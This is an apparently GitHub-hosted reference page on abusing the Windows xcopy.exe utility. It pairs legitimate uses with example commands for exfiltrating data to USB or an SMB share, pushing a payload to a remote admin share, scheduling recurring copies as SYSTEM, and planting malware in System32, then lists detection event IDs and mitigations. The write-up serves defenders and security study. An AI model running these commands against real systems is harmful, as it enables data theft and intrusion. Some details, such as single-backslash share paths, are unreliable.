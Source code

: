 # xcopy.exe
## What is it?
*```xcopy.exe``` is a command-line utility in Windows that is used for copying files and directories, including subdirectories and file attributes.*
*It is an extended version of the basic ```copy``` command and provides more control over the file copying process, making it useful for backup and system maintenance tasks.*

## Legitimate Usage
- **Backup & File Transfer** → Copy files or directories from one location to another, with the option to preserve file attributes and timestamps (```/E```, ```/H```).
- **Directory Synchronization** → Mirror directories, ensuring that changes in source folders are replicated in destination folders (```/MIR```).
- **Mass File Operations** → Move a large number of files while maintaining folder structure and file properties (```/S```, ```/E```).
- **Batch File Automation** → Use in scripts or batch files to automate file copying tasks in a controlled environment.

## How to abuse it
- **Data Exfiltration** → Attackers can use ```xcopy.exe``` to copy sensitive files from a target system and exfiltrate them to an external device or remote location.
- **Bypassing Security Controls** → ```xcopy.exe``` is a trusted, built-in Windows utility, which makes it effective for bypassing security tools and whitelisting mechanisms.
- **Persistence** → Attackers can use ```xcopy.exe``` in conjunction with other techniques to place malicious payloads on a system for continued execution.
- **Privilege Escalation & Lateral Movement** → ```xcopy.exe``` can be used to move files, including tools or malware, across systems on a network.

## Example attacks
### 1. Data Exfiltration (Copying Files to External Media)
*Attackers can use ```xcopy.exe``` to copy sensitive files from a system to an external USB drive or network share.*
**Copy Files to an External USB Drive**

```
xcopy C:\SensitiveData E:\Backup /E /H /C /Y
```

**Effect:**
- ```/E``` → Copies directories and subdirectories, including empty ones.
- ```/H``` → Copies hidden and system files.
- ```/C``` → Continues copying even if errors occur.
- ```/Y``` → Suppresses confirmation prompts, allowing silent copying.

### 2. Exfiltration via Network Share
*Attackers can copy files over SMB to a remote network share to exfiltrate data silently.*
**Copy Files to a Remote Network Share**

```
xcopy C:\SensitiveData \192.168.1.100\share /E /H /C /Y
```

**Effect:**
- Copies files from the local system to a remote share, bypassing traditional monitoring tools.

### 3. Lateral Movement via File Transfer
*Attackers can move files, such as tools or malware, across systems on a network using ```xcopy.exe```.*
**Copy Malware to Remote System**

```
xcopy payload.exe \192.168.1.50\C$\Windows\Temp /E /H /C
```

**Effect:**
- Copies malicious payload to a remote system via SMB for execution.
- ```/C``` ensures that the operation continues even if errors occur, maintaining the attack's stealth.

### 4. Persistence via Scheduled Tasks
*Attackers can schedule periodic file transfers to maintain access to sensitive data or systems.*
**Schedule File Copy Every Hour**

```
schtasks /create /tn "BackupJob" /tr "xcopy C:\SensitiveData E:\Backup /E /H /Y" /sc hourly /ru SYSTEM
```

**Effect:**
- Creates a scheduled task to copy files every hour, ensuring persistence and continued access to sensitive data.

### 5. Bypassing Execution Restrictions
*```xcopy.exe``` can be used to bypass software restrictions by copying files to trusted directories (e.g., ```C:\Windows\System32```), which are not blocked by security tools like AppLocker or SRP.*
**Copy Malware to a Trusted Directory**

```
xcopy C:\MalwareFolder C:\Windows\System32 /E /H
```

**Effect:**
- Places malicious files in trusted system directories, bypassing application whitelisting and execution restrictions.

# Detection & Mitigation
## Detection Methods
**Monitor File Transfers**
- **Event ID 4663 (File Access)** → Monitor for bulk file movements, especially copying files to external media or remote shares.
- **Look for ```xcopy.exe``` writing to USB devices or network shares**.

**Monitor Scheduled Task Creation**
- **Event ID 4698 (Scheduled Task Created)** → Detect unauthorized scheduled tasks that involve file copying operations.

**Monitor Network Activity**
- **Event ID 5140 (SMB Share Access)** → Track file transfers over SMB to detect unauthorized or suspicious activities.

## Mitigation Strategies
- **Restrict External Device Access** → Prevent unauthorized USB file transfers by disabling external device access or using device control tools.
- **Use Application Control (AppLocker, WDAC)** → Prevent the execution of unauthorized applications, including ```xcopy.exe```, in non-administrative directories.
- **Monitor File Access Logs** → Detect large file transfers or copying activities, especially involving sensitive directories or external devices.
- **Disable SMB/Remote File Shares** → Reduce the attack surface by blocking SMB or restricting access to remote file shares.
